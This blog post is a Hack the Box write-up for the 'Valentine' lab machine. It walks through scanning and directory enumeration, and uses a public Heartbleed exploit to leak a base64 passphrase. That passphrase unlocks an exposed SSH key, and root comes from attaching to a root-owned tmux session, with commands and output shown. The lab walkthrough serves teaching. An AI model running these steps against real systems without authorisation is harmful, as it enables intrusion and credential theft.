 ```yaml
---
layout: post
current: post
cover: assets/images/posts/2018/07/valentine-writeup/valentine-banner.jpg
navigation: True
title: 'Valentine Writeup'
date: 2018-07-27
tags: ctf
class: post-template
subclass: 'post'
author: christoffer
---
```

> Heartbleeds and dirty cows, i feel sorry for the creator!

Connecting to Hack the Box[^1] using the supplied VPN, my Valentine box have the IP: 10.10.10.79
As per usual, lets start with Recon and NMAP the target IP

```
root@kali:~/Valentine$ nmap -p- --version-all -sV -sS 10.10.10.79
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-02 22:27 CET
Nmap scan report for 10.10.10.79
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT      STATE  SERVICE   VERSION
22/tcp    open   ssh       OpenSSH 5.9p1 Debian 5ubuntu1.10
80/tcp    open   http      Apache httpd 2.2.22 ((Ubuntu))
443/tcp   open   ssl/http  Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.78 seconds
```
 
So we are dealing with some kind of webserver.
The root directory of the address is only displaying an image on both webports (80/443), next step would be trying to enumerate directories!  
 
![Valentine root image](assets/posts/2018/07/valentine-writeup/omg-1.jpg)  

I usually use the tool "gobuster" to enumerate webdirectories with a wordlist, and point it to Burpsuite Proxy. That way, any link or directory that gobuster finds, will Burpsuite automatically spider as well as record in its console.  
So lets point gobuster towards the webserver and let it run in the background. 

```
root@kali:~/Valentine$ gobuster -u http://10.10.10.79 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -p 127.0.0.1:8080 -x php
```

Now sticking with the theme Valentine, the image is referencing the exploit Heartbleed[^2] which targets SSL (port 443). its also available on ExploitDB, therefor there's a local variant in kali. You might though have to run this a couple times to get the data that's relevant.

```
root@kali:~/Valentine$ searchsploit heartbleed
root@kali:~/Valentine$ cp /usr/share/exploitdb/exploits/multiple/remote/32764.py .
root@kali:~/Valentine$ python 32764.py 10.10.10.79 > heartbleed.txt
root@kali:~/Valentine$ cat heartbleed.txt
[..snip..]
00f0: 01 00 00 00 10 00 0E 00 00 0B 31 30 2E 31 30 2E ..........10.10.
0100: 31 30 2E 37 39 6F 6E 2F 78 2D 77 77 77 2D 66 6F 10.79on/x-www-fo
0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43 rm-urlencoded..C
0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34 ontent-Length: 4
0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63 2....$text=aGVhc
0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64 nRibGVlZGJlbGlld
0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 43 mV0aGVoeXBlCg==C
0160: 05 16 1F AC BA A4 D1 E0 45 10 F2 B0 B6 9E 4B 30 ........E.....K0
0170: 01 06 7D 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C ..}.............
0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
[..snip..]
```

Now that $text parameter in the response looks like a base64 encoded string.  
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==

```
root@kali:~/Valentine$ echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
heartbleedbelievethehype
```

Lets save that to the notes and pop back to see what the result of gobuster is up to.

```
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.79/
[+] Threads      : 200
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 302,307,200,204,301
[+] Proxy        : 127.0.0.1:8080
[+] Extensions   : .php
=====================================================
/index (Status: 200)
/index.php (Status: 200)
/dev (Status: 301)
/encode (Status: 200)
/encode.php (Status: 200)
/decode (Status: 200)
/decode.php (Status: 200)
/omg (Status: 200)
=====================================================
```

So encode and decode just seems to be two php functions that does what they say to base64 strings. They didn't seems that vulnerable to command injections either. But /dev looks interesting , browsing to that reveals two files.  
![Valentine_Slash_dev](assets/posts/2018/07/valentine-writeup/Valentine_Slash_dev.png)  
Taking a peek at notes.txt shows a checklist.

```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

The file hype_key contains an ASCII encoded SSH Private Key, so download that and pipe it to xxd.

```
root@kali:~/Valentine$ cat hype_key | xxd -r -p > rsa.encrypted
root@kali:~/Valentine$ cat rsa.encrypted
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
[..super snip..]
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

According to Proc-Type its encrypted, so next step would be to decrypt it using JohnTheRipper!  
First lets create a JTR compatible file to crack, then remembering the decoded base64 string before, might be the password.

```
root@kali:~/Valentine$ ssh2john rsa.encrypted > rsa.john
root@kali:~/Valentine$ echo "heartbleedbelievethehype" | john --stdin rsa.johnssh
```

That should successfully crack the Private Key!  
Now we only need to change the permissions and try to connect, what we're missing is the username to connect with, but reading the private keys filename "hype_key", we can always try "hype".

```
root@kali:~/Valentine$ chmod 0600 rsa.encrypted
root@kali:~/Valentine$ ssh -i rsa.encrypted hype@10.10.10.79
Enter passphrase for key 'rsa.encrypted': heartbleedbelievethehype
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)
New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$
```

So that takes care of the initial shell, now lets enumerate the system and see what we can find out to Privilege Escalate to root!  
G0tmi1k[^3] Has a really good cheat sheets in how to enumerate linux systems!  
So lets do some basic things.

```
hype@Valentine:~$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

So having a kernel means that it might be vulnerable to the Dirtycow[^4] exploit.  
But generally using such exploit is frowned upon since it might crash the box and ruin the day for other people.  
So lets continue enumerating and hope we find something else.

```
hype@Valentine:~$ history
.....snip....
8 ls -la
9 tmux -L dev_sess
10 tmux a -t dev_sess
11 tmux --help
12 tmux -S /.devs/dev_sess
13 exit
.....snip....
```

Now running history shows that there's a tmux session (item 12) hype connected to, and running `ps -aux` to check all running processes also shows that the tmux session is running as root.  
Lets connect to the same session.

```
hype@Valentine:~$ !12
root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
```

Done!

[^1]: [www.hackthebox.eu](www.hackthebox.eu)
[^2]: [www.heartbleed.com](http://heartbleed.com/)
[^3]: [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[^4]: [www.dirtycow.ninja](https://dirtycow.ninja)
